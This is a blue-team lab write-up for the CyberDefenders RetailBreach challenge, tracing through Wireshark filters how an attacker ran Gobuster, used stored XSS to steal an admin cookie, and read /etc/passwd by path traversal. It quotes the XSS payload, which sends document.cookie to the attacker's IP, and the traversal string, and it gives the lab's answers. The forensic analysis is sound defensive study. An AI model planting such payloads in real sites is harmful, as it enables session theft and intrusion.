




## Scenario

ShopSphere, a prominent online retail platform, experienced unusual administrative login activity during late-night hours coinciding with customer complaints about unexplained account anomalies. Network traffic was captured to identify the source and method of the breach.

---

## Tooling

- Wireshark

---

## Investigation

### Identifying the Attacker

Filtering traffic to isolate attacker activity:

`http && ip.addr == 111.224.180.128`

This revealed the attacker IP `111.224.180.128` conducting a range of malicious activity across the capture.

---
### Directory Brute-Forcing

Analysis of attacker traffic showed a high volume of GET requests to non-existent paths — consistent with directory enumeration. The User-Agent string identified the tool as **Gobuster**, a common directory brute-forcing utility used to discover hidden endpoints.


---
### XSS — Session Cookie Theft

The attacker injected a malicious script into the reviews endpoint to steal admin session cookies:

`<script>fetch('http://111.224.180.128/' + document.cookie);</script>`

Filtering for GET requests to identify the victim accessing the poisoned page:

`http.request.method == "GET"`

Examining traffic to `reviews.php` revealed the victim IP `135.143.142.5` visiting the page containing the injected script at **2024-03-29 12:09 UTC**, triggering the cookie exfiltration.
``


The stolen session cookie was:

`lqkctf24s9h9lg67teu8uevn3q`



### Session Hijacking & LFI

With the stolen cookie, the attacker authenticated as the admin and pivoted to the `/admin/log_viewer.php` endpoint. Using a path traversal payload, the attacker accessed the server's `/etc/passwd` file:

`../../../../../etc/passwd`

Confirming the session cookie was used in attacker traffic:

```bash
http && ip.addr == 111.224.180.128 and frame contains "lqkctf24s9h9lg67teu8uevn3q"
```


![[retail_LFI.png]]
## IOCs 

| Type             | Value                                                              |
| ---------------- | ------------------------------------------------------------------ |
| Stolen Cookie    | lqkctf24s9h9lg67teu8uevn3q                                         |
| LFI Payload      | ../../../../../etc/passwd                                          |
| IP               | 111.224.180.128                                                    |
| XSS              | script>fetch('http://111.224.180.128/' + document.cookie);</script |
| Exploited Script | log_viewer.php                                                     |
| Timestamp        | 2024-03-29 12:09 UTC                                               |
| Victim IP        | 135.143.142.5                                                      |
| Tool             | Gobuster                                                           |
## Conclusion

> The attacker enumerated hidden directories using Gobuster, injected a stored XSS payload into the reviews page to steal an admin session cookie, used the hijacked session to access the admin panel, and exploited a path traversal vulnerability in log_viewer.php to read /etc/passwd — demonstrating a full web attack chain from recon through to sensitive file disclosure.

---

## References

- [MITRE T1059 — Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/)
- [MITRE T1110 — Brute Force](https://attack.mitre.org/techniques/T1110/)
- [MITRE T1539 — Steal Web Session Cookie](https://attack.mitre.org/techniques/T1539/)
- [CyberDefenders — RetailBreach Lab](https://cyberdefenders.org/blueteam-ctf-challenges/retailbreach/)
















I successfully completed RetailBreach Blue Team Lab at @CyberDefenders!
https://cyberdefenders.org/blueteam-ctf-challenges/achievements/inksec/retailbreach/
 
#CyberDefenders #CyberSecurity #BlueYard #BlueTeam #InfoSec #SOC #SOCAnalyst #DFIR #CCD #CyberDefender